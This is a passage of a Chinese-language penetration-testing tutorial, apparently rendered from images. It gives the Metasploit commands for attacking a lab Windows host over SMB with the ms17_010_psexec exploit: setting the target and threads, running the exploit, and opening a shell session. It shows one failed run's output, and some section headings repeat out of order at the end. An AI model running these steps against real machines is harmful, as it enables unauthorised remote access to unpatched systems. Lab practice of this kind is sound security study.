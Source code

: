 


**# 设置模块（目标、速度）**
set rhosts 192.168.190.138
# 设置线程
set threads 250
# 启动模块
run

如果扫不出来，就可能是有防火墙（我是提前关了防火墙的） 
<hr/>
<h4>2.2.4、第三步：测试漏洞为ms17_010</h4>
**# 使用ms17的漏洞利用模块**
use exploit/windows/smb/ms17_010_psexec
# 查看使用方法
show options



**# 设置**
set rhosts 192.168.190.138
# 执行漏洞攻击
run

Unable to find accessible named pipe!
无法找到可访问的命名管！

 Exploit completed, but no session was created.
漏洞利用完成，但未创建会话。
（如果创建成功再执行第四步）
<hr/>
<h4>2.2.5、第四步：进入到会话，执行</h4>
#可以查看已经创建的会话
session -l
#进入这个对应的shell
sessions -i ID

再执行自己想执行的命令


#### 2.2.2、第一步：信息收集

---


#### 2.2.4、第三步：测试漏洞为ms17_010

---


---
